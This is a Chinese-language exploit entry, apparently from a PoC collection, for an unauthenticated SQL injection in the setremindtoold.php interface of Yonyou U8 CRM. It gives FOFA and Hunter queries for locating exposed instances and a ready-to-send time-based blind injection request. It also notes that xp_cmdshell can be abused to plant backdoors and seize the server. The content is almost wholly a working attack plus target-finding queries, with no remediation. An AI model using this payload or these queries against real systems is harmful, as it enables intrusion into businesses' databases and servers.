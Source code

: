 # 用友U8CRM系统接口setremindtoold.php存在SQL注入漏洞

用友U8CRM系统接口setremindtoold.php存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```javascript
title="用友U8CRM"
```

## hunter

```javascript
app.name="用友 CRM"
```

## poc

```javascript
GET /ajax/setremindtoold.php?dID=1;WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```

![image-20240926094445980](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409260944059.png)
